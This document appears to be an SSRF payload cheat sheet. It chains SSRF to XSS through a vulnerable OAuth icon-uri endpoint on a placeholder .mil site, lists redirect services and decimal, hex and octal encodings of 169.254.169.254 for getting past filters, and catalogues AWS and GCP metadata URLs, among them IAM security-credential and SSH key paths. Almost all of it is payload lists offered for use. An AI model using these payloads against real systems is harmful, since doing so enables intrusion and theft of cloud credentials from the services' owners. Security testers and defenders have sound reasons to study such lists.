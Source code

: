 - SSRF to XSS
by @D0rkerDevil & @alyssa.o.herrera

[http://brutelogic.com.br/poc.svg](.) -> simple alert

[https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=](.) -> simple ssrf

[https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg](.)

- HTTP redirect

Static:[http://nicob.net/redir6a](.)

Dynamic:[http://nicob.net/redir-http-169.254.169.254:80-](.)

- Alternate IP encoding

[http://425.510.425.510/](.) Dotted decimal with overflow

[http://2852039166/](.) Dotless decimal
[http://7147006462/](.) Dotless decimal with overflow

[http://0xA9.0xFE.0xA9.0xFE/](.) Dotted hexadecimal

[http://0xA9FEA9FE/](.) Dotless hexadecimal

[http://0x41414141A9FEA9FE/](.) Dotless hexadecimal with overflow

[http://0251.0376.0251.0376/](.) Dotted octal

[http://0251.00376.000251.0000376/](.) Dotted octal with padding

### METADATA

[http://169.254.169.254/latest/user-data](.)

[http://169.254.169.254/latest/user-data/iam/security-credentials/](.)[ROLE NAME]

[http://169.254.169.254/latest/meta-data/](.)

[http://169.254.169.254/latest/meta-data/iam/security-credentials/](.)[ROLE NAME]

[http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance](.)

[http://169.254.169.254/latest/meta-data/ami-id](.)

[http://169.254.169.254/latest/meta-data/reservation-id](.)

[http://169.254.169.254/latest/meta-data/hostname](.)

[http://169.254.169.254/latest/meta-data/public-keys/](.)

[http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key](.)

[http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key](.)

[http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy](.)

[http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access](.)

[http://169.254.169.254/latest/dynamic/instance-identity/document](.)

[http://metadata.google.internal/computeMetadata/v1beta1/](.)
